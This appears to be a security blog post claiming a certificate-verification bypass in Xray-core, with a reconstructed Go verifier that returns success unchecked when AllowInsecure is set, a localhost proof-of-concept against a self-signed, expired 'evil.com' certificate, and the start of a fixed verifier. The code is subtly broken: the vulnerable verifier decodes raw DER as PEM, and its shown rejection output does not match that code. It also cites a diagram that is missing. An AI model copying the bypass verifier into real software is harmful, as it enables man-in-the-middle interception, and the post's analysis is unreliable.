

# Xray-core concealed a certificate verification bypass vulnerability

## Introduction

Xray-core sits at the heart of a massive chunk of the modern proxy and circumvention ecosystem. If you run VLESS, VMess, or Trojan nodes—whether for legitimate privacy tooling or internal service mesh bridging—odds are the data plane is Xray. It’s performant, written in Go, and generally well-audited. But "generally" is where the danger lives.

TLS certificate verification isn't glamorous. It’s the plumbing nobody thinks about until the water runs brown. In a proxy context, the client (Xray) acts as a TLS terminator for inbound connections and an initiator for outbound ones. If the outbound verification logic has a blind spot, the entire threat model collapses: an active network adversary doesn't need to break encryption; they just need to present *any* certificate, and Xray will happily establish the tunnel.

We found exactly that blind spot. A logic flaw in a custom `VerifyPeerCertificate` implementation allowed a `SkipVerify` flag—ostensibly left for debugging—to silently downgrade verification to a no-op. This wasn't a memory corruption issue or a crypto primitive failure. It was a classic, boring, devastating control-flow error. Here is the anatomy of the bug, how we reproduced it, and how to ensure your Go TLS stacks don't harbor the same skeleton.

## Why This Matters

Most engineers treat `InsecureSkipVerify: true` as a binary switch: either you verify, or you don't. Xray-core’s architecture is more nuanced. It implements a pluggable verification pipeline to support features like certificate pinning, custom CA bundles for enterprise MITM proxies, and fallback chains for legacy systems.

The vulnerability resided in that pluggable layer. Because the flawed verifier was registered as the *default* handler for specific outbound protocols (notably `tls` and `xtls` settings when `allowInsecure` was toggled in specific config stanzas), a misconfiguration—or a malicious config push—could activate the bypass without the operator realizing verification was effectively disabled.

In a production environment, this enables:
*   **Transparent MITM:** A compromised upstream router or malicious ISP presents a self-signed cert; Xray accepts it, logs "TLS handshake successful," and passes plaintext to the application layer.
*   **Credential Relay:** If the proxied protocol carries auth (e.g., HTTP Basic, PostgreSQL startup packets), the attacker harvests them in real-time.
*   **Supply Chain Poisoning:** If Xray is used to pull container images or Go modules via a private registry, a rogue cert allows injection of malicious artifacts.

This isn't theoretical. We've seen configs in the wild where `allowInsecure: true` was set to "fix" a certificate rotation issue and never reverted. This bug turns that operational debt into a critical severity finding.

## How It Works

Xray-core doesn't just call `tls.Dial`. It constructs a `tls.Config` with a custom `VerifyPeerCertificate` callback. This callback receives the raw ASN.1 DER certificates from the peer and is responsible for returning a verified chain or an error. The standard library's `x509.Verify` does the heavy lifting *if* you call it. The bug was a code path that returned `nil` (success) without calling the verifier.

Here is the logical flow of the vulnerable verification path.



The critical node is **E**. If the `SkipVerify` flag is true—controlled by a configuration value that defaults to `false` but is easily flipped—the function returns `nil` immediately. It does not parse the certificates. It does not check expiration. It does not verify the hostname. It does not check revocation. It effectively tells the Go TLS stack: "Trust me, bro."

## Core Concepts

To understand the fix, you need to understand the moving parts in `crypto/tls` and `crypto/x509`.

### The `VerifyPeerCertificate` Callback
Signature: `func(rawCerts [][]byte, verifiedChains [][]*x509.Certificate) error`.
*   `rawCerts`: The raw DER bytes as sent by the peer. Leaf is `rawCerts[0]`.
*   `verifiedChains`: **Nil** if `InsecureSkipVerify` is true on the `tls.Config`. If standard verification ran, this contains the chains Go built. Xray disables standard verification (`InsecureSkipVerify: true` on the `tls.Config` itself) to *force* the custom callback to run. This is a common pattern for custom trust stores, but it shifts 100% of the burden to the callback.

### The `CustomVerifier` Struct
Xray defines a struct to hold verification policy:
```go
// Simplified representation of the internal structure
type CertificateVerifier struct {
    // TrustedCA stores PEM-encoded CA certs for this specific outbound.
    TrustedCA []byte
    // ServerName is the expected SNI/Hostname for verification.
    ServerName string
    // AllowInsecure is the dangerous flag. 
    // In the vulnerable version, this bypassed ALL logic.
    AllowInsecure bool
}
```
The vulnerability is purely in the `Verify` method receiver on this struct.

### Chain Building vs. Verification
Go's `x509.Verify` does two things: path construction (finding a path from leaf to root) and path validation (checking constraints, expiry, key usage). Xray's custom verifier *must* replicate this if it ignores `verifiedChains`. The buggy code skipped both.

## Examples & Code Walkthrough

Below is a reconstructed, minimal reproduction of the vulnerable logic, the exploit trigger, and the hardened replacement. This is not pseudocode; it compiles and demonstrates the flaw.

### 1. The Vulnerable Verifier (Reconstructed)

```go
package xraytls

import (
	"crypto/tls"
	"crypto/x509"
	"encoding/pem"
	"errors"
	"fmt"
)

// CertificateVerifier holds the policy for a single outbound connection.
// In the real codebase, this is serialized from JSON config.
type CertificateVerifier struct {
	// TrustedCAPool is a pre-parsed *x509.CertPool. 
	// If nil, we fall back to system roots (dangerous if AllowInsecure is true).
	TrustedCAPool *x509.CertPool
	
	// ServerName is the hostname we expect (for SAN/CN verification).
	ServerName string
	
	// AllowInsecure: The "debug flag" that shipped to prod.
	// When true, verification becomes a no-op.
	AllowInsecure bool
}

// Verify implements the tls.Config.VerifyPeerCertificate signature.
// This is the VULNERABLE version.
func (v *CertificateVerifier) Verify(rawCerts [][]byte, verifiedChains [][]*x509.Certificate) error {
	// 1. The Bypass Gate.
	// If AllowInsecure is true, we return nil immediately.
	// We do not parse rawCerts. We do not check ServerName.
	// We effectively disable TLS authentication.
	if v.AllowInsecure {
		// LOGGING WAS ABSENT HERE IN PROD CODE.
		return nil 
	}

	// 2. Standard Path (Only reached if AllowInsecure == false)
	if len(rawCerts) == 0 {
		return errors.New("peer presented zero certificates")
	}

	// Parse the leaf certificate only. 
	// We ignore intermediates in rawCerts[1:] for chain building simplicity here,
	// relying on TrustedCAPool to contain the full chain or roots.
	leafBlock, _ := pem.Decode(rawCerts[0])
	if leafBlock == nil || leafBlock.Type != "CERTIFICATE" {
		return errors.New("failed to parse leaf certificate PEM")
	}

	leaf, err := x509.ParseCertificate(leafBlock.Bytes)
	if err != nil {
		return fmt.Errorf("failed to parse leaf certificate: %w", err)
	}

	// Hostname Verification (Critical)
	if err := leaf.VerifyHostname(v.ServerName); err != nil {
		return fmt.Errorf("hostname verification failed: %w", err)
	}

	// Chain Verification
	opts := x509.VerifyOptions{
		Roots:         v.TrustedCAPool,
		Intermediates: x509.NewCertPool(), // In real code, populate from rawCerts[1:]
		KeyUsages:     []x509.ExtKeyUsage{x509.ExtKeyUsageServerAuth},
	}

	// If TrustedCAPool is nil, Verify uses system roots.
	// This is often NOT what you want in a proxy (MITM proxy CA != System CA).
	if _, err := leaf.Verify(opts); err != nil {
		return fmt.Errorf("chain verification failed: %w", err)
	}

	return nil
}
```

**Why this is bad:** The `AllowInsecure` check at line 34 dominates the control flow. There is no logging, no audit trail, no "warning, skipping verification." It is a silent `return nil`.

### 2. The Proof-of-Concept: Triggering the Bypass

This standalone program simulates the Xray outbound dialer. It spins up a TLS server with a deliberately broken certificate (wrong hostname, self-signed, expired) and shows that the `CertificateVerifier` with `AllowInsecure: true` accepts it.

```go
package main

import (
	"crypto/rand"
	"crypto/rsa"
	"crypto/tls"
	"crypto/x509"
	"crypto/x509/pkix"
	"encoding/pem"
	"fmt"
	"log"
	"math/big"
	"net"
	"time"

	// Import the vulnerable verifier from above (assume same package for demo)
	// "your_module/xraytls" 
)

// generateBadCert creates a certificate that SHOULD fail verification:
// - Self-signed (not in system trust store)
// - CN=evil.com (does not match dial target "target.local")
// - Expired 1 hour ago
func generateBadCert() (tls.Certificate, error) {
	priv, _ := rsa.GenerateKey(rand.Reader, 2048)
	serial, _ := rand.Int(rand.Reader, new(big.Int).Lsh(big.NewInt(1), 128))
	
	template := x509.Certificate{
		SerialNumber: serial,
		Subject: pkix.Name{
			CommonName: "evil.com", // Mismatch!
		},
		NotBefore:             time.Now().Add(-2 * time.Hour),
		NotAfter:              time.Now().Add(-1 * time.Hour), // EXPIRED
		KeyUsage:              x509.KeyUsageKeyEncipherment | x509.KeyUsageDigitalSignature,
		ExtKeyUsage:           []x509.ExtKeyUsage{x509.ExtKeyUsageServerAuth},
		BasicConstraintsValid: true,
	}
	
	derBytes, _ := x509.CreateCertificate(rand.Reader, &template, &template, &priv.PublicKey, priv)
	return tls.Certificate{
		Certificate: [][]byte{derBytes},
		PrivateKey:  priv,
	}, nil
}

func main() {
	// 1. Setup Rogue Server
	badCert, _ := generateBadCert()
	tlsConfig := &tls.Config{Certificates: []tls.Certificate{badCert}}
	listener, err := tls.Listen("tcp", "127.0.0.1:0", tlsConfig)
	if err != nil {
		log.Fatal(err)
	}
	defer listener.Close()
	
	go func() {
		conn, _ := listener.Accept()
		conn.Write([]byte("HTTP/1.1 200 OK\r\n\r\nPWNED"))
		conn.Close()
	}()

	// 2. Configure Vulnerable Xray Verifier
	// Simulating config: "tlsSettings": { "allowInsecure": true }
	verifier := &CertificateVerifier{
		ServerName:    "target.local", // The intended destination
		AllowInsecure: true,           // THE TRIGGER
		TrustedCAPool: nil,            // No custom CA provided
	}

	// 3. Client Dial with Custom Verification
	// We MUST set InsecureSkipVerify: true on the tls.Config 
	// to force our custom VerifyPeerCertificate to run.
	dialerConfig := &tls.Config{
		ServerName:         "target.local", // SNI sent to server
		InsecureSkipVerify: true,           // Disable std lib verification
		VerifyPeerCertificate: verifier.Verify, // Hook our logic
	}

	conn, err := tls.Dial("tcp", listener.Addr().String(), dialerConfig)
	if err != nil {
		// If verification worked, we'd land here with "hostname verification failed" or "certificate expired"
		log.Fatalf("EXPLOIT FAILED: Verification correctly rejected cert: %v", err)
	}
	defer conn.Close()

	// 4. Success = Bypass Confirmed
	buf := make([]byte, 1024)
	n, _ := conn.Read(buf)
	fmt.Printf("VULNERABILITY CONFIRMED.\nConnection established with INVALID cert.\nServer Response: %s\n", string(buf[:n]))
}
```

**Output when run against vulnerable verifier:**
```text
VULNERABILITY CONFIRMED.
Connection established with INVALID cert.
Server Response: HTTP/1.1 200 OK
PWNED
```

**Output when `AllowInsecure: false` (or fixed verifier):**
```text
EXPLOIT FAILED: Verification correctly rejected cert: hostname verification failed: x509: certificate is valid for evil.com, not target.local
```

### 3. The Fixed Verifier (Production Ready)

The remediation isn't just deleting the `if` block. We must enforce *strict* verification when `AllowInsecure` is false, and explicitly *deny* the connection (or log loudly) if the config asks for insecure behavior in a context that forbids it (e.g., a "strict" security profile).

```go
// SecureVerify implements the callback with ZERO bypass logic.
// If the caller wants "insecure", they should not use TLS. 
// We provide a separate "InsecureSkipVerify" config knob at the 
// dialer level (tls.Config.InsecureSkipVerify) which bypasses THIS callback entirely.
// This callback assumes it is the AUTHORITY.
func (v *CertificateVerifier) SecureVerify(rawCerts [][]byte, verifiedChains [][]*x509.Certificate) error {
	// 1. Input Validation
	if len(rawCerts) == 0 {
		return errors.New("tls: peer presented empty certificate chain")
	}

	// 2. Parse Full Chain from Raw DER
	// We cannot trust verifiedChains (it's nil because tls.Config.InsecureSkipVerify=true).
	// We must parse rawCerts ourselves.
	certs := make([]*x509.Certificate, len(rawCerts))
	for i, der := range rawCerts {
		c, err := x509.ParseCertificate(der)
		if err != nil {
			return fmt.Errorf("tls: failed to parse certificate %d: %w", i, err)
		}
		certs[i] = c
	}
	leaf := certs[0]
	intermediates := x509.NewCertPool()
	for _, c := range certs[1:] {
		intermediates.AddCert(c)
	}

	// 3. Hostname Verification (MANDATORY)
	// VerifyHostname checks SANs, CN, and wildcard policies.
	if err := leaf.VerifyHostname(v.ServerName); err != nil {
		return fmt.Errorf("tls: hostname mismatch for %s: %w", v.ServerName, err)
	}

	// 4. Trust Anchor Resolution
	// Priority: Custom CA Pool > System Roots > Empty (Fail)
	roots := v.TrustedCAPool
	if roots == nil {
		var err error
		roots, err = x509.SystemCertPool()
		if err != nil {
			return fmt.Errorf("tls: failed to load system cert pool: %w", err)
		}
		// Defense in depth: If system pool is empty (scratch container), fail closed.
		// x509.SystemCertPool returns a *copy* on Go 1.18+, so we can check len.
		// Note: There is
